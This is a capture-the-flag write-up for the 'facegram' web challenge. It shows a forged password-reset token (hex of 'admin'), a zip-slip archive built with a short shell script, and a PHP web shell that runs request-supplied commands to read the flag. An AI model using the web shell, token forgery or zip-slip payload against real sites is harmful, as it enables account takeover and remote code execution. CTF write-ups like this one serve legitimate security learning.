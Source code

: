 # facegram (web, 400 points)

> This punk kid stole my idea for a photo sharing site! Can you break into it for me?

## Solution:

When we open up the website, we see a relatively standard main page with a lot of photos. Additionally, we have the option to log in.

![login page](../assets/facegram/login.png)

Forgot password, huh? Let's try forgetting the admin's password...

![i forgor](../assets/facegram/forgot_admin.png)

![i forgor as well](../assets/facegram/forgot_password.png)

Oh...

Ok, what if we register our own account? I set up my own account, and then forgot my own password. A few seconds later, I get a link: `http://thecybercoopctf-707c6fe0a266-facegram-0.chals.io/forgot-password.php?token=646f75626c6564656c657465`.

Hmm... that token looks... not so random. In fact, it's the hex for my username (`doubledelete`). So, let's just try replacing that with the hex for `admin`:

```python
>>> b'admin'.hex()
'61646d696e'
```

![i no longer forgor](../assets/facegram/set_password.png)

After setting the password, let's try logging in as the admin:

![moving up in the world](../assets/facegram/logged_as_admin.png)

Nice! Now what? Let's check out the admin panel. We have the ability to look at all users, as well as bulk upload.

![bulk upload](../assets/facegram/bulk.png)

Allowing users to upload ZIP files to an application couldn't _ever_ be a security risk, righ-

![oops](../assets/facegram/o.png)

(https://github.com/snyk/zip-slip-vulnerability)

If we look at where the uploads are being loaded from, we see they come from the `/uploads` directory. Presumably, if we put something in the directory above, we might be able to load it?

Let's try it:

```
❯ ls --tree
.
├── file
│  └── exp.zip
└── rce.php
❯ cat solve.sh
───────┬─────────────────────────────────────────────
       │ File: solve.sh
───────┼─────────────────────────────────────────────
   1   │ #!/bin/bash
   2   │ rm file/exp.zip
   3   │ cd file
   4   │ zip --symlinks exp.zip * ../rce.php
   5   │ cd ..
───────┴─────────────────────────────────────────────
```

Inside of `rce.php`, we put a simple PHP file that executes a command we give it:

```php
<?php 
if(isset($_REQUEST['cmd'])){
    $cmd = ($_REQUEST['cmd']);
    system($cmd);
}?>
```

Now, we upload it, and...

![rce!](../assets/facegram/rce!.png)

After a few more commands:

```
$ ls ..
app.db bootstrap.sh db.sql flag.txt html

$ cat ../flag.txt
flag{but_i_thought_zips_only_went_up}
```
